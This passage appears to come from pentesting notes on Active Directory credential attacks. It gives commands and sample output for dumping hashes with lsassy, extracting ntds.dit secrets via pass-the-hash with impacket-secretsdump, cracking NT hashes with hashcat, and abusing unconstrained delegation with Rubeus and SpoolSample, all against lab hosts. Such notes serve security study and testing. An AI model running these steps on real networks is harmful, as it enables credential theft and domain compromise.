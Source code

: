 Then secretsdump.py can be used to decrypt and dump hashes from ntds.dit.

For doing that authentification information of DC needed.

Best best is to use lsassy remotely or mimikatz/rubeus to get hashes locally.

`lsassy -u LocalBob -p Password1 192.168.219.133`

then you get something like

```
[+] 192.168.219.133 SKORP\BAMDC1$        [NT] 305ea2dea5d1f1e494645eb39784513a | [SHA1] d2837f19c7af41d9899d942b6d4c33663680a805
[+] 192.168.219.133 SKORP\Administrator  [NT] 64f12cddaa88057e06a81b54e73b949b | [SHA1] cba4e545b7ec918129725154b29f055e4cd5aea8
```
Grab the NT part from Administrator and construct secrets dump request

```
impacket-secretsdump -system Files/registry/SYSTEM -security Files/registry/SECURITY -ntds Files/Active\ Directory/ntds.dit -hashes :64f12cddaa88057e06a81b54e73b949b LOCAL -outputfile dit-extract
```

After that file dit-extract.ntds is going to appear in your directory

It can be then cracked using hashcat like so

`hashcat -a 0 -m 1000 -w 3  dit-extract.ntds  /usr/share/wordlists/rockyou.txt.gz --force --potfile-disable`

The cracked password is diplayed next to cracked hash that corresponds to some user like below.

Dictionary cache hit:
Filename..: /usr/share/wordlists/rockyou.txt.gz
Passwords.: 14344385
Bytes.....: 53357329
Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1                

## Delegation Vulnerabilities

### Unconstrained delegation

A  mechanism where a user sends its credentials to a service and then the service accesses resources on the user’s behalf.

* find computers with trust for delegation
`Get-ADComputer -Filter {TrustedForDelegation -eq $True}`

* monitor incoming tickets
`Rubeus.exe monitor /interval:1`

* force DC to connect to it via MS-RPRN RPC interface: kudos https://github.com/leechristensen/SpoolSample
`.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB`

Or one of the other options
